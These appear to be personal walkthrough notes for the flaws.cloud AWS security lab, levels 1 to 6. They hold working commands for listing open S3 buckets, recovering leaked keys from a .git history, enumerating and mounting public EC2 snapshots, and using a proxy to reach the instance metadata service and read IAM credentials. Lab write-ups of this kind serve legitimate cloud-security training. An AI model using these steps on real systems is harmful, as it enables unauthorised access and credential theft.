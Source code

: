 # Flaws.cloud

- **Level 1**
	- When hosting a site as an S3 bucket, the bucket name (flaws.cloud) must match the domain name (flaws.cloud).
	-  S3 buckets are a global name space, meaning two people cannot have buckets with the same name.
	- you could create a bucket named apple.com and Apple would never be able host their main site via S3 hosting.
	- You can determine the site is hosted as an S3 bucket by running a DNS lookup on the domain,
	- `dig +nocmd domainname any +multiline +noall +answer`
	- Go to `A`  listed IP  in the browser it should redirect it to `https://aws.amazon.com/s3/`
	- It gives an indication that a bucket has been created by someone with the same name as the domain. 
	- `nslookup` on the `IP Address` will reveal the full domain address of the bucket.

	-  See `nslookup 54.231.184.255`
	- All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS. In this case, flaws.cloud can also be visited by going to `http://flaws.cloud.s3-website-us-west-2.amazonaws.com/`
	-  Use `aws  cli` to interact with the bucket 
		-  `pip install was-cli`
	- Region is also important to supply in the command
	- `aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2`
	- If you happened to not know the region, there are only a dozen regions to try. You could also use the GUI tool cyberduck to browse this bucket and it will figure out the region automatically.
	- Note that according to the documentation there are only a limited number of regions. Hence bruteforcing this with the table below could work. Moreover, the command works in this case without specifying the region.
	- On AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files. A number of people accidentally open them up with permissions that are too loose. Just like how you shouldn't allow directory listings of web servers, you shouldn't allow bucket listings.
	- By default, S3 buckets are private and secure when they are created. To allow it to be accessed as a web page, I had turn on "Static Website Hosting" and changed the bucket policy to allow everyone "s3:GetObject" privileges, which is fine if you plan to publicly host the bucket as a web page. But then to introduce the flaw, I changed the permissions to add "Everyone" to have "List" permissions.
	- "Everyone" means everyone on the Internet. You can also list the files simply by going to http://flaws.cloud.s3.amazonaws.com/ due to that List permission.
	-  you can also just visit http://flaws.cloud.s3.amazonaws.com/ which lists the files due to the permissions issues on this bucket.

- **Level 2**
	- Create an IAM admin user 
	- `aws s3 --profile YOUR_ACCOUNT ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`
	- `aws s3 --profile Flawer ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/`
	- http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
	- Similar to opening permissions to "Everyone", people accidentally open permissions to "Any Authenticated AWS User". They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account.

- **Level 3**
	- Found `.git` repository 
	- We can download the whole s3 bucket `aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2`
	- You can read the `git logs` 
		- `git logs`
	- Go back to the state
		- `git checkout commit_id` 
- **Level 4**
	- You can snapshot the disk volume of an EC2 as a backup. In this case, the snapshot was made public, but you'll need to find it.
   - To do this, first we need the account ID, which we can get using the AWS key from the previous level
		` aws --profile flaws sts get-caller-identity`
	- discover the snapshot
		`aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029  --region us-west-2` 

 - Now that you know the snapshot ID, you're going to want to mount it. You'll need to do this in your own AWS account, which you can get for free.
 - First, create a volume using the snapshot:
	
	` aws --profile YOUR_ACCOUNT ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89`
 
 - **Level 5**
	 - Get the account ID
 	  
		`aws --profile flaws sts get-caller-identity`

	 - Find the snapshots from the User ID
	 
		`aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029 --region us-west-2`

 	 - Create the volume from the snapshot

		`aws --profile Flawer ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89` 

	 - make sure the region is right.

	 - mount the volume
 
		 - `lsblk`
		 - `sudo file -s /dev/xvdf1`
		 - `sudo mount /dev/xvdf1 /mnt`

 - **Level 6**
	 - Accessing it locally gives the meta data about instance
	 - The IP address 169.254.169.254 is a magic IP in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves. 
	 -  Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header. AWS has no constraints. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see.
	 
	 - `curl http://169.254.169.254/latest/meta-data/`
	 - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/`
	 - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/secret-credentials/flaws`
	 - `http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/`
 
 - **Level 7**
	 - 
